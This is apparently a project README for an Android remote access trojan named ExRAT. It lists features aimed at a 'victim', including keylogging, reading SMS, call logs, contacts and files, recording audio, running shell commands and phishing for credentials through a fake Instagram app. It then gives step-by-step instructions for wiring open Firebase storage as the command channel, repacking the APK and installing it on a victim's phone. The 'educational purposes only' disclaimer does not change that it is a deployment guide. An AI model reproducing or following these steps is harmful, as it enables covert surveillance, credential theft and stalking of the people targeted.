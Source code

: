 # ExRAT
TO BE USED FOR EDUCATIONAL PURPOSES ONLY




A multifunctional Android RAT with GUI based Web Panel without port forwarding.
Features
Read all the files of Internal Storage
Download Any Media to your Device from Victims Device
Get all the system information of Victim Device
Retrieve the List of Installed Applications
Retrive SMS
Retrive Call Logs
Retrive Contacts
Send SMS
Gets all the Notifications
Keylogger
Admin Permission
Show Phishing Pages to steal credentials through notification.
Steal credentials through pre built phishing pages
Open any suspicious website through notification to steal credentials.
Record Audio
Play music in Victim's device
Vibrate Device
Text To Speech
Change Wallpaper
Run shell Commands
Pre Binded with Instagram Webview Phishing
Runs In Background
Auto Starts on restarting the device
Auto Starts when any notification arrives
No port forwarding needed
Requirements
Firebase Account
ApkEasy Tool ( For PC ) or ApkTool M ( for Android)
How to Build
Firebase Setup
Create an Firebase Account and afterwords create a new project with any name.
Enable Firebase Database and Firebase Storage.
In Firebase Database Click on the rules and set .read and .write to true
    {
     "rules": {
             ".read": "true",
             ".write": "true"
              }
    }
In Firebase Storage allow reads and writes for all paths.
  rules_version = '2';
  service firebase.storage {
  match /b/{bucket}/o {
      match /{allPaths=**} {
         allow read, write 
        }
    }
 }
Now Go to project overview and create an Android App and download the google-services.json file.
Also create a web app and copy the config of webapp.
Panel Setup
You can use Github Pages or any Hosting Website for hosting the panel.
Open index.html File and from line number 16 replace the config with your web app config which you have created on Step 6.
Save the file , Your Panel Setup is completed.
Android RAT
Download Instagram.apk
Decompile it using any Decompiler recommend above.
Now open res/values/strings.xml file.
Replace values of firebase_database_url , google_api_key , google_app_id , google_storage_bucket , project_id with your Firebase Account using google-services.json file which you have downloaded on step 5
Example
<string name="firebase_database_url">https://your_database_url.firebase.com</string>
<string name="google_api_key">your_api_key</string>
<string name="google_app_id">your_app_id</string>
<string name="google_storage_bucket">your_storage_bucket_url</string>
<string name="project_id">project_id</string>
Now compile the code with appt2.
Install the app in victim's device and give all the permissions after that the connection will show up in web panel.
